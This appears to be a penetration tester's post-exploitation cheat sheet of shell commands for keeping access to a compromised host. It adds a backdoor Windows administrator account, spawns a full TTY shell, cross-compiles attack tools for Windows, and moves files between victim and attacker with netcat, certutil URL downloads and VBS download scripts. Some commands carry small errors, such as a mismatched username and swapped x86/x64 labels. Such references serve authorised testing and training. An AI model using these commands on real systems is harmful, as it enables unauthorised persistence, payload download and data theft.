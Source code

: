 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Ensuring you don't have to re-exploit over and over again_

## Creating Windows Admin Account
```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jim -p sparrow [IP-ADDRESS]
```

## Executing in Memory - TMPFS

```bash
mount | grep ^tmp

# Example:
# tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
# tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
#
# Beware of the "noexec" flag; executing programs will fail
```

## Get full TTY shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Switch user

```bash
su $USER

sudo -u $USER $cmd
```

### Using Python Scripts without Python installed
[PyInstaller](https://github.com/pyinstaller/pyinstaller) <sup><sub>[[archive](assets/files/PyInstaller-3.6.zip)]
```bash
pyinstaller yourprogram.py
```

## Cross-compiling for Windows

#### C & C++

```bash
# Setup
apt install mingw-w64

# x86
x86_64-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst] -lws2_32

# x64
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
```

#### C#

```bash
# Setup 
# Add repo with https://www.mono-project.com/download/stable/
sudo apt-get install mono-complete msbuild mono-roslyn

# Building
msbuild [src.sln]
```

## Exfiltration

+ SSH Copy (scp)

```bash
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

+ Netcat

```bash
# Victim
nc -nvlp $RPORT > out.file

# Attacker
nc -nv $RHOST $RPORT < in.file
```

+ exe2bat

```bash
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

+ certutil.exe

```bash
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

+ [zip.vbs](assets/files/zip.vbs) <sup><sub>[[copy&paste](assets/files/zip.vbs.txt)]

```bash
CScript zip.vbs $SRC $DEST
```

+ [wget.vbs](assets/files/wget.vbs) <sup><sub>[[copy&paste](assets/files/wget.vbs.txt)]

```bash
CScript wget.vbs $SRC $DEST
```